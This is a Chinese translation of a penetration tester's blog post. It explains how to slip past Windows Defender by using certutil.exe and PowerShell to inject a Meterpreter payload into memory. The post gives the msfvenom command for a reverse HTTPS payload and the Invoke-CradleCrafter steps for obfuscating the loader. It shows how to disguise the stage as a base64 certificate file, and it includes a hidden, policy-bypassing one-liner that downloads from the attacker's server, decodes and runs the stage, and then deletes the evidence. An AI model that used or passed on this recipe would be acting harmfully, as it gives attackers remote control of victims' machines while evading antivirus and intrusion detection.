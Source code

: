 > 原文链接: https://www.anquanke.com//post/id/146969 


# 看我如何使用CertUtil.exe进行内存注入攻击


                                阅读量   
                                **199531**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">2</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者，文章来源：https://www.coalfire.com/
                                <br>原文地址：[https://www.coalfire.com/The-Coalfire-Blog/May-2018/PowerShell-In-Memory-Injection-Using-CertUtil-exe](https://www.coalfire.com/The-Coalfire-Blog/May-2018/PowerShell-In-Memory-Injection-Using-CertUtil-exe)

译文仅供参考，具体内容表达以及含义原文为准

[![](https://p2.ssl.qhimg.com/t016c4934d124428dd9.jpg)](https://p2.ssl.qhimg.com/t016c4934d124428dd9.jpg)

## 

## 写在前面的话

你有没有听过那句老话：“生命中唯一不变的就是改变？”在渗透测试和信息安全领域，也是如此。新的防守总是不断涌现。最近我正忙于内部事务，另一项工作也在进行中，这时我发现微软升级了Windows Defender，它几乎出现在我们最近遇到的每一个微软操作系统上。我感到有点绝望。几年来，我使用带有`Invoke-Shellcode`的PowerShell来轻松地控制shell，但现在这些方法都凉了。

但并不是彻底凉了。最近我一直在做一些研究和准备，我将在今年晚些时候在Black Hat上介绍代码注入技术。我阅读了Microsoft有关`Certutil.exe`与PowerShell一起在多个博客网站上执行内存注入的文章。最后，我将推荐Daniel Bohannon编写的PowerShell模块[Invoke-CradleCrafter](https://github.com/danielbohannon/Invoke-CradleCrafter)。由于我已经使用了[Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)，所以向`Invoke-CradleCrafter`的过渡非常轻松。

在这篇博客文章中，我将讨论使用`PowerShell`，`Invoke-CradleCrafter`和`Microsof`t的`Certutil.exe`来制作payload和可用于逃避最新版本的Windows Defender（截至撰写本文时）的单行程序的步骤，以及作为不被入侵检测系统和行为分析所捕获的技巧。毕竟，PowerShell仍然是最简单和最好的方法之一，但与此同时，它也在出卖你，因为它一运行就与AMSI进行交流，这使得事情有点具有挑战性。

## 

## 开始

设置要求： Linux，Metasploit，Invoke-CradleCrafter，PowerShell for Linux和Windows 10.<br>
安装[PowerShell for Linux](https://github.com/PowerShell/PowerShell)和[Metasploit](https://github.com/rapid7/metasploit-framework)。

我会告诉你我更喜欢在Linux上运行PowerShell，所以Defender不会出问题。从[GitHub](https://github.com/danielbohannon/Invoke-CradleCrafter.git)下载`Invoke-CradleCrafter`。

接下来，我们将通过执行以下操作来创建base64编码的PowerShell Meterpreter payload：<br>`msfvenom -p windows/x64/meterpreter/reverse_https LHOST=&lt;YOUR IP HERE&gt; LPORT=443 -e cmd/powershell_base64 -f psh -o load.txt`

[![](https://p5.ssl.qhimg.com/t01dacb935b51c2ca34.jpg)](https://p5.ssl.qhimg.com/t01dacb935b51c2ca34.jpg)

请注意，只要`certutil`可以获取并读取其内容，有效内容文件的扩展名就可以是任何内容。例如，一个组织可能有一个不允许下载脚本的策略（或IDS，内容过滤器等），但它们可能允许`.txt`文件或甚至其他异常扩展的文件。如果你要改变它，只要确保你在`Invoke-CradleCrafter`（见下文）中设置URL时补偿了这一点。

接下来，您将创建一个用于提供Web内容的文件夹。在这个例子中，我们将调用我们的文件夹payload将`PowerShell Meterpreter PowerShell`脚本放置在此文件夹内。

接下来，我们将使用`Invoke-CradleCrafter`来混淆我们的`certutil`和PowerShell命令，这些命令将用于绕过Defender执行内存中注入。

通过输入`pwsh`或PowerShell，进入Linux主机的PowerShell提示。进入`Invoke-CradleCrafter`目录并运行以下命令：<br>`Import-Module .Invoke-CradleCrafter.psd1; Invoke-CradleCrafter`<br>
在提示符下键入： `SET URL http(s)://&lt;YOUR IP&gt;/load.txt`，或者您可以使用其他扩展名等。

[![](https://p1.ssl.qhimg.com/t01995571036e5bd490.jpg)](https://p1.ssl.qhimg.com/t01995571036e5bd490.jpg)<br>
下一步输入`MEMORY`然后`CERTUTIL`：

[![](https://p2.ssl.qhimg.com/t01f5f50b414177bb00.jpg)](https://p2.ssl.qhimg.com/t01f5f50b414177bb00.jpg)



[![](https://p4.ssl.qhimg.com/t01ef5aa04744c0c3e3.jpg)](https://p4.ssl.qhimg.com/t01ef5aa04744c0c3e3.jpg)

接下来，您将看到您的混淆选项。我通常选择全部，然后输入1

[![](https://p0.ssl.qhimg.com/t01cebc41ccf695fe1b.jpg)](https://p0.ssl.qhimg.com/t01cebc41ccf695fe1b.jpg)

获得结果后，将其放在Windows机器上的一个名为`raw.txt`的文件中。你可以使用`certutil`对这个文件进行base64编码，并创建名为`cert.cer`的文件并将其放置在Web服务器上。然后，我们将构建一个将被远程调用的单行程序，用于将该文件下载并在目标上执行。一旦执行，它将调用我们的`paylaod load.txt`并通过PowerShell注入Meterpreter到内存中。

使用`certutil`来编码`raw.txt`文件：

[![](https://p1.ssl.qhimg.com/t016425fa4a53e2e1a3.jpg)](https://p1.ssl.qhimg.com/t016425fa4a53e2e1a3.jpg)<br>
看起来像一个真正的证书，不是吗？

[![](https://p1.ssl.qhimg.com/t0170e999168c3fae57.jpg)](https://p1.ssl.qhimg.com/t0170e999168c3fae57.jpg)<br>
将您的`cert.cer`放在您要提供内容的paylaod目录中,然后，我们将构建我们的单行程序，它可以放在批处理文件中，或者使用命令行比如[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)等强大的工具来执行。

<a class="reference-link" name="One-liner:"></a>**One-liner:**

`powershell.exe -Win hiddeN -Exec ByPasS add-content -path %APPDATA%cert.cer (New-Object Net.WebClient).DownloadString('http://YOUR IP HERE/cert.cer'); certutil -decode %APPDATA%cert.cer %APPDATA%stage.ps1 &amp; start /b cmd /c powershell.exe  -Exec Bypass -NoExit -File %APPDATA%stage.ps1 &amp; start /b cmd /c del %APPDATA%cert.cer`

一旦你设置好了所有的东西，并且你的web服务器启动了内容服务的地方，你可以运行上面的命令，你应该得到一个Meterpreter shell：

[![](https://p4.ssl.qhimg.com/t019403d5c71be766dd.jpg)](https://p4.ssl.qhimg.com/t019403d5c71be766dd.jpg)

您的网络服务器应该获得2次点击：

[![](https://p5.ssl.qhimg.com/t01bdc7f37e6a353850.jpg)](https://p5.ssl.qhimg.com/t01bdc7f37e6a353850.jpg)

Defender被成功绕过并建立了一个Meterpreter会话：

[![](https://p0.ssl.qhimg.com/t013c57a39c754015c4.jpg)](https://p0.ssl.qhimg.com/t013c57a39c754015c4.jpg)<br>
请注意，要使此攻击成功，需要手动删除执行的Meterpreter PowerShell脚本。`cert.ce`r文件将自动被删除，但您需要在Meterpreter会话中删除`stage.ps1`通过以下操作:

[![](https://p4.ssl.qhimg.com/t0112b2816dab35e6ca.jpg)](https://p4.ssl.qhimg.com/t0112b2816dab35e6ca.jpg)

另外请注意，您也可以从您可能通过其他方式获得的命令shell中下载到PowerShell，并复制`stage.ps1`文件的内容以直接执行您的有效内容，如下所示：

[![](https://p4.ssl.qhimg.com/t0156b199b6a7b734fb.jpg)](https://p4.ssl.qhimg.com/t0156b199b6a7b734fb.jpg)

## 

## 最后的教导

最后，我想起了改变是多么的美好。强迫你去研究和尝试新技术，这种变化不仅可以帮助你成长为优秀渗透测试者，还可以帮助你成为更好的顾问并教育顾客如何更好地装备并调整他们的防御以检测这些高级攻击。
